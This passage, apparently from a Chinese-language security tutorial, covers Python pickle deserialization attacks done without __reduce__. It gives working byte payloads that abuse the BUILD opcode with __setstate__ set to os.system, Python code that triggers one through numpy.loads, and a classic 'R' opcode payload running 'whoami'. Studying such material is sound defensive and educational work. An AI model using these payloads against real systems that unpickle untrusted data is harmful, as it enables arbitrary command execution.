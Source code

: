 ## 0x05 没有`__reduce__`

用build指令，对于对象`__setstate__`如果传入的os.system，那么不就可以执行命令了。

抄一下师傅们的payload

这是正常的

```
b"\x80\x03c__main__\ndem1\n)\x81}X\x0c\x00\x00\x00__setstate__cnt\nsystem\nsbX\x04\x00\x00\x00dir b."
```

**其他模块的load也可以触发pickle反序列化漏洞**

```python
import os,numpy
import pickle,pickletools

class dem0():
    data=20211230
    text = "Hello World"
    todo = ['test','text','abcd']
class dem1():
    def __init__(self,a):
        self.__setstate__=os.system
        # self.a=a
        # self.data=20211230
        # self.text = "Hello World"
        # self.todo = ['test','text','abcd']
s=dem1(1)
x = pickle.dumps(s,protocol=2)
x = pickletools.optimize(x)
pickletools.dis(x)
print(x)
x=b"\x80\x03c__main__\ndem1\n)\x81}X\x0c\x00\x00\x00__setstate__cnt\nsystem\nsbX\x04\x00\x00\x00dir b."
numpy.loads(x)
'''
def loads(*args, **kwargs):
    # NumPy 1.15.0, 2017-12-10
    warnings.warn(
        "np.loads is deprecated, use pickle.loads instead",
        DeprecationWarning, stacklevel=2)
    return pickle.loads(*args, **kwargs)
'''
# pickletools.dis(x)
# pickle.loads(x)

```

R:

```text
b'''cos
system
(S'whoami'
tR.'''
```

